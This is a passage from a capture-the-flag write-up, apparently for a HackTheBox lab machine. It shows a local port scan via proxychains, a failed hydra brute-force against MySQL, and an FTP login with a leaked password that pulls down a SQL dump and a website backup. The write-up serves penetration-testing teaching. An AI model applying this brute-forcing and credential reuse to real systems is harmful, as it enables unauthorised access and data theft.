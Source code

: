 Running the script shows us an additional port: 3306 (MySQL).
```bash
root@darkness:~# bash portscan.sh
127.0.0.1:21 is open!
127.0.0.1:22 is open!
127.0.0.1:80 is open!
127.0.0.1:3306 is open!
```

We could now try to login to mysql with all the found creds:
```bash
root@darkness:~# proxychains -q hydra -L users.txt -P passwd.txt mysql://127.0.0.1
[DATA] max 4 tasks per 1 server, overall 4 tasks, 33 login tries (l:11/p:3), ~9 tries per task
[DATA] attacking mysql://127.0.0.1:3306/
1 of 1 target completed, 0 valid passwords found
```
Sadly this path did not lead anywhere and was abandoned.

## FTP - Port 21

As we now have credentials, let us enumerate ftp.

```bash
root@darkness:~# ftp 10.10.10.187
Connected to 10.10.10.187.
220 (vsFTPd 3.0.3)
Name (10.10.10.187:root): ftpuser
331 Please specify the password.
Password: %n?4Wz}R$tTF7
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0            3405 Dec 02 21:24 dump.sql
-rw-r--r--    1 0        0         5270987 Dec 03 21:20 html.tar.gz
226 Directory send OK.
```
Using the found credentials we can successfully login to FTP. Let us download the available files.

```bash
ftp> get html.tar.gz
local: html.tar.gz remote: html.tar.gz
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for html.tar.gz (5270987 bytes).
226 Transfer complete.
5270987 bytes received in 2.66 secs (1.8897 MB/s)
ftp> get dump.sql
[...]
```


Checking out the html.tar.gz file:
```bash
root@darkness:~# gunzip html.tar.gz
root@darkness:~# tar xvf html.tar
root@darkness:~# ls
assets  images  index.php  robots.txt  utility-scripts  w4ld0s_s3cr3t_d1r
```
Seems like the FTP server hosted a backup of the website. Checking out the index.php we find more credentials:
